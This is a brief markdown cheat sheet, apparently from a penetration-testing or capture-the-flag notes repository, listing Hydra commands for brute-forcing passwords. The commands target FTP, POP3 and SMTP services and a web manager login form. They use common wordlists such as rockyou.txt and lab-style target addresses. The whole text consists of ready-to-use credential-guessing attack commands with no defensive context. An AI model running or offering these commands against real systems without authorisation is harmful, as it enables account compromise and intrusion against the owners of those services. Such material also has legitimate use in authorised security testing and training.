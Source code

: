 # Hydra Brute Force
### FTP Brute Force
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V
```
### POP3 Brute Force
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V
```
### SMTP Brute Force
```
hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V
```
Use -t to limit concurrent connections, example: -t 15
### Web Login Form:
```
hydra -L /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.129.35.106 http-get /manager/html
```



